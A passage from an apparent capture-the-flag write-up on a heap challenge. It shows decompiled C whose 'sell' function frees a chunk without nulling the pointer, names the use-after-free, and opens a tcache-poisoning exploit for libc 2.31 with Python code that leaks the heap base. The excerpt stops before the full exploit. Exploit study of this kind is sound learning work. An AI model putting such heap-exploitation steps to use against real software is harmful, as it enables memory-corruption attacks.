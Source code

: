 The psychiatrist function prints information about a chunk as long as that chunk is not null.

```c
void sell(void)

{
  long in_FS_OFFSET;
  int index;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("You\'ve come to sell your dreams.");
  printf("Which one are you trading in? ");
  index = 0;
  __isoc99_scanf(&DAT_00402104,&index);
  getchar();
  if ((index < MAX_DREAMS) && (-1 < index)) {
    puts("You let it go. Suddenly you feel less burdened... less restrained... freed. At last.");
    free(*(void **)(dreams + (long)index * 8));
    puts("Your money? Pfft. Get out of here.");
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
    return;
  }
  puts("Out of bounds!");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

The sell function frees a chunk, but fails to set the pointer to null.Therefore, we have a Use-After-Free vulnerability.

## Exploit

### Heap Leak

So giving that we are in libc 2.31, our binary will have tcache. Therefore, my idea will be to poison the tcache to get arbitrary read and write. And then, using that I'll leak the heap and then the libc base address'

```python
sleep(0,dream=b'a dog')
sleep(1,dream=b'a dog')
sell(0)
sell(1)
heap_base = parse_heap_leak()
log.info(f"Heap is at {hex(heap_base)}")
```

The idea here is to alloc two chunks and then free them, ensuring that both of the chunks end up in the tcache. This is the look of the tcache after theese allocations
